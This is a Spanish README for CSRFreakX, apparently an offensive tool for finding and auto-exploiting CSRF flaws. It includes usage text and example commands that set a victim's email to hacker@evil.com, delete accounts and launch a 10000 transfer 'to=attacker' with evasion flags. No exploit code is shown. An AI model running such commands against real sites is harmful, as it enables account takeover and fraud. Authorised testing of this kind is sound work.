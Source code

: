 # CSRFreakX

**CSRFreakX** es una herramienta ofensiva automatizada para la explotación avanzada de vulnerabilidades **Cross-Site Request Forgery (CSRF)**. Diseñada para **Bug Bounty, Red Teaming y pentesters profesionales**, permite detectar, explotar y automatizar ataques CSRF complejos con técnicas modernas de evasión, lógica de negocio y payloads maliciosos invisibles.

## 🧠 Características clave

☠️ Auto-explotación de endpoints vulnerables

☠️ Explotación de lógica subyacente y manipulación de privilegios

☠️ JavaScript EvilForm Caster (exploit en background sin interacción del usuario)

☠️ Stealth Mode: técnicas evasivas contra protecciones comunes (SameSite, Referer, etc.)

🔍 Modo Scan-Only para análisis pasivo

🚀 Auto-launch Exploit para pruebas reales en entornos controlados

📄 Generación de informes automáticos con payload incluido

## 🧪 Uso

```bash
python app.py -h
```

```bash
usage: app.py [-h] --target TARGET [--params PARAMS] [--method {GET,POST}] [--bypass] [--scan-only] [--launch] [--aggressive]

CSRFreakX - Real CSRF Auto-Exploiter

options:
  -h, --help           Mostrar ayuda
  --target TARGET      URL objetivo a escanear o atacar
  --params PARAMS      Parámetros de ataque (key1=val1&key2=val2)
  --method {GET,POST}  Método HTTP (por defecto POST)
  --bypass             Aplicar técnicas de evasión anti-CSRF
  --scan-only          Solo escanear sin explotar
  --launch             Lanzar el exploit automáticamente
  --aggressive         Modo agresivo con evasión avanzada y heurística

```

## 🎯 Ejemplos

**🔍 Solo escaneo pasivo:**
```bash
python app.py --target https://victima.com/endpoint --scan-only
```

**🛠️ Generar exploit manualmente:**

```bash
python app.py --target https://objetivo.com/delete_account --params "id=987"
```

**⚔️ Ejecutar ataque completo automáticamente:**

```bash
python app.py --target https://objetivo.com/actualizar --params "email=hacker@evil.com" --launch
```

**👁‍🗨 Modo sigiloso + evasión lógica:**

```bash
python app.py --target https://portal.secreto.com/transferir --params "monto=10000&to=attacker" --method POST --bypass --aggressive --launch
```

## 📄 Informes automáticos

Al finalizar un escaneo o ataque exitoso, CSRFreakX genera un informe en la carpeta informes/ con el siguiente contenido:

✅ Estado del endpoint (VULNERABLE o SEGURO)

📍 Target probado

📦 Parámetros utilizados

💉 Payload exploit generado

🧠 Observaciones sobre evasión o lógica explotada

## 🔐 Casos comunes de explotación

- Cambios de correo electrónico o contraseña sin token CSRF

- Eliminación de cuentas mediante enlaces o formularios

- Transferencias financieras sin protección adecuada

- Elevación de privilegios vía modificación de parámetros ID

- Explotación de lógica rota en formularios ocultos

## ✅ Estado del proyecto

💣 Estable, actualizado para 2025, probado en:

- Programas Bug Bounty de HackerOne y Bugcrowd

- Aplicaciones en React, Angular, Laravel, Django y Node.js

- Formularios tradicionales y SPA con backend RESTful

## ⚠️ Aviso legal

> CSRFreakX está destinada exclusivamente a auditorías autorizadas.
> El uso no ético o sin permiso en sistemas de terceros constituye un delito informático.
> El autor no se responsabiliza por daños derivados del mal uso de esta herramienta.

# 🤝 Contribuciones

Se aceptan pull requests, mejoras de código, integración con más fuentes OSINT y módulos de detección avanzados.
  <br />
	<br/>
      	<p width="20px"><b>Se aceptan donaciones para mantener este proyecto</p></b>
	      <a href="https://buymeacoffee.com/investigacq"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=investigacqc&button_colour=FF5F5F&font_colour=ffffff&font_family=Cookie&outline_colour=000000&coffee_colour=FFDD00" /></a><br />
      	<a href="https://www.paypal.com/paypalme/babiloniaetica"><img title="Donations For Projects" height="25" src="https://ionicabizau.github.io/badges/paypal.svg" /></a>
</div>

## ❤️ Créditos

> Autor: [Zuk4r1](https://github.com/Zuk4r1)  
> Licencia: MIT  
> Uso exclusivo para investigación ética y entornos controlados.
> Sígueme para más herramientas de Red Team y Bug Bounty.

# ¡Feliz hackeo! 🎯
